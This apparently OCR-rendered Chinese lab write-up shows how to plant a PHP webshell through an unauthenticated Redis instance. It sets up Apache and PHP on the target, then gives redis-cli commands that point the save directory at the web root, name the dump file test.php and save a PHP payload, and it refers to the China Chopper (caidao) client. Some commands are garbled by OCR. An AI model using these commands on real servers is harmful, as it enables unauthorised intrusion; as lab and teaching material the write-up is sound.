 # 利用Redis 的持久化写webshell

## 1.配置环境

```bash
由于靶场没有开启 web 服务器，配置好 apache 和 php

firewall-cmd --zone=public --add-port=80/tcp --permanent		#开80端口
firewall-cmd --list-ports
firewall-cmd --reload
firewall-cmd --list-ports

systemctl restart firewalld.service 				#重启防火墙

yum install php php-mysq!-y					#安装php5

php -v							#验证

安装apache: yum -yinstall httpd*



vi /etc/httpd/conf/httpd.conf
在配置文件中修改如下:
添加如下内容
AddType application/x-httpd-php-source.phps
AddType application/x-httpd-php.php
```

![image-20240530153411137](D:/%E6%96%87%E6%A1%A3/%E7%AC%94%E8%AE%B0/image-20240530153411137.png)

```php
php -v
cd /var/www/html
Is
vi info.php
编写如此 php 文件
<?php phpinfo();?>

systemctl restart httpd
    
    
测试：
    ip/info.php
```

## 2.攻击条件

```bash
靶机 Redis链接未授权，在攻击机上能用redis-cli 连上，如上图，并未登陆验证
开了 web 服务器，并且知道路径(如利用 phpinfo，或者错误爆路经)，还需要具有文件读写增删改查权限(我们可以将 dir 设置为一个目录 A,而 dbfilename为文件名 B,再执行 save或bgsave，则我们就可以写入一个路径为/A/B的任意文件。)
在html目录下写入一个test.php的木马文件:
攻击机写下如下 redis 命令
192.168.137.11:6379> config set dir /var/www/html
OK
192.168.137.11:6379> config set dbfilename test.php
OK
192.168.137.11:6379> set webshell "\r\n\r\n<?php phpinfo();?>\r\n\r\n"
OK
192.168.137.11:6379>save
OK


cd /var/www/html
ls
cat test1.php

```

## 菜刀

```
http://ip/test1.php


caidao
```

